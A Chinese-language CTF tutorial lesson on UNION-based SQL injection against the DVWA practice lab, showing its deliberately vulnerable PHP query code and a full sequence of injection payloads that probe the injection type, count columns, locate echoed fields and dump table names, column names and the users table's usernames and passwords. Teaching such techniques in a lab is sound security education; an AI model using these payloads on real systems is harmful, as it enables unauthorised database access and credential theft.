# CTF教程：P9：联合查询注入的作用 🎯

在本节课中，我们将要学习SQL注入中的一种核心攻击技术——联合查询注入。我们将通过分析一段存在漏洞的代码，一步步了解联合查询的原理、作用以及如何利用它来获取数据库中的敏感信息。

## 概述：什么是联合查询注入？

上一节我们介绍了SQL注入的基本概念和产生条件。本节中我们来看看联合查询注入的具体实现。联合查询注入的核心是利用SQL的`UNION`操作符，将攻击者构造的恶意查询语句“拼接”到原始查询之后，从而获取数据库中的额外信息。

## 漏洞代码分析



首先，我们来看一段存在SQL注入漏洞的PHP代码，它来自DVWA的SQL注入靶场。

```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysqli_query($connection, $query);
while($row = mysqli_fetch_assoc($result)) {
    echo $row['first_name'] . ' ' . $row['last_name'];
}
```



这段代码存在以下问题：
1.  它接收一个名为`id`的GET参数。
2.  它没有对用户输入的`$id`进行任何安全检查或过滤。
3.  它直接将`$id`拼接到了SQL查询语句中。
4.  程序执行查询并输出结果。

这完全符合我们之前提到的SQL注入产生条件：**用户的输入变成了SQL语句中合法语法的一部分**。

## 注入点探测与类型判断

在不知道源码的情况下，我们需要手动探测是否存在注入点以及注入类型（数字型或字符型）。

以下是判断注入类型的步骤：

1.  **判断是否为字符型注入**：尝试输入 `1' and '1'='1`。如果页面返回正常，说明我们的输入被单引号包裹，是字符型注入。
2.  **判断是否为数字型注入**：尝试输入 `1 and 1=1`。如果页面返回正常，且输入没有被单引号包裹，则是数字型注入。



以靶场为例，我们输入 `1' and '1'='1` 时页面正常，输入 `1' and '1'='2` 时无结果，这证实了存在字符型SQL注入漏洞，并且我们的输入被单引号包裹。

## 前期准备：确定字段数与回显位



在开始联合查询之前，我们需要进行两项重要的准备工作。





### 1. 确定原始查询的字段数



联合查询要求前后两个`SELECT`语句的列数必须相同。因此，我们需要先猜解出原始查询语句查询了多少个字段（列）。



我们使用 `ORDER BY` 子句来猜解列数。

```sql
1' ORDER BY 1 -- 
1' ORDER BY 2 -- 
1' ORDER BY 3 -- 
```
*   `ORDER BY 1` 表示按第一列排序，如果页面正常，说明至少有一列。
*   `ORDER BY 2` 正常，说明至少有两列。
*   当 `ORDER BY 3` 时页面报错（Unknown column ‘3’ in ‘order clause’），则说明原始查询只有 **2** 列。





**原理**：`ORDER BY n` 表示以查询结果第n列为基准进行排序。如果n超过了实际列数，数据库就会报错。

### 2. 确定回显位



即使我们知道有2列，但Web页面可能只显示了其中部分列的内容。我们需要确定哪几列的内容会被输出到页面上（即可见回显位）。



我们使用 `UNION SELECT` 配合数字来测试。

```sql
1' UNION SELECT 1,2 -- 
```
执行以上语句后，观察页面。如果页面上显示了数字“1”和“2”，则说明这两列都是回显位。如果只显示“1”，则说明只有第一列是回显位。

**原理**：`UNION` 操作符用于合并两个或多个 `SELECT` 语句的结果集。我们通过构造 `UNION SELECT 1,2`，让数据库返回一个包含数字1和2的临时结果集。这些数字在页面的显示位置，就对应了原始查询结果集的回显位置。

## 联合查询实战：获取数据库信息

完成前期准备后，我们就可以利用联合查询系统地获取数据库信息了。数据库的结构通常是：**数据库 -> 表 -> 列 -> 数据**。

### 第一步：获取当前数据库名

使用 `database()` 函数。

```sql
1' UNION SELECT 1, database() -- 
```
执行后，在回显位（例如数字2的位置）会显示当前数据库的名称，例如 `dvwa`。

### 第二步：获取数据库中的所有表名

查询 `information_schema.tables` 系统表。

```sql
1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() -- 
```
*   `information_schema.tables` 存储了数据库中所有表的信息。
*   `table_schema=database()` 条件用于限定只查询当前数据库下的表。
*   `group_concat()` 函数将所有的表名合并成一行并用逗号分隔，方便一次性查看。例如可能返回 `guestbook,users`。

### 第三步：获取指定表的所有列名

查询 `information_schema.columns` 系统表。

```sql
1' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' -- 
```
执行后，可以获取 `users` 表的所有列名，例如 `user_id, first_name, last_name, ...`。

### 第四步：获取表内的具体数据

知道了表名和列名，就可以直接查询数据了。

```sql
1' UNION SELECT user, password FROM users -- 
```
或者，为了更精确地查看，可以：
```sql
1' UNION SELECT group_concat(user), group_concat(password) FROM users -- 
```
这样就能将 `users` 表中的用户名和密码全部查询出来。

## 技巧：处理无回显或限制回显的情况

有时，页面只显示查询结果的第一行。为了让我们的 `UNION` 查询结果能够显示出来，我们需要“挤掉”原始查询的结果。

**方法**：使原始查询的结果为空。
```sql
-1' UNION SELECT 1, database() -- 
```
或
```sql
1' and 1=2 UNION SELECT 1, database() -- 
```
**原理**：`id = -1` 或 `and 1=2` 使得原始 `SELECT` 语句查询结果为空。这样，`UNION` 后面的查询结果就会成为第一行，从而在页面上显示出来。

如果 `group_concat` 被禁用，可以使用 `LIMIT` 子句逐行读取数据。
```sql
1' UNION SELECT user, password FROM users LIMIT 0,1 -- // 读取第1行
1' UNION SELECT user, password FROM users LIMIT 1,1 -- // 读取第2行
```

## 总结





本节课中我们一起学习了联合查询注入的完整流程：
1.  **探测与判断**：确认注入点及注入类型（字符型/数字型）。
2.  **前期准备**：使用 `ORDER BY` 猜解字段数；使用 `UNION SELECT` 确定回显位。
3.  **信息获取**：遵循 **数据库 -> 表 -> 列 -> 数据** 的顺序，利用 `UNION` 查询拼接恶意语句，从系统表 `information_schema` 中逐步获取所需信息。
4.  **技巧应用**：使用 `group_concat` 整合信息，或使用 `LIMIT` 分行读取，并通过构造条件使原始查询为空，确保攻击载荷能够回显。



联合查询注入是一种高效、直观的SQL注入手段，理解其原理和步骤是Web安全入门的关键。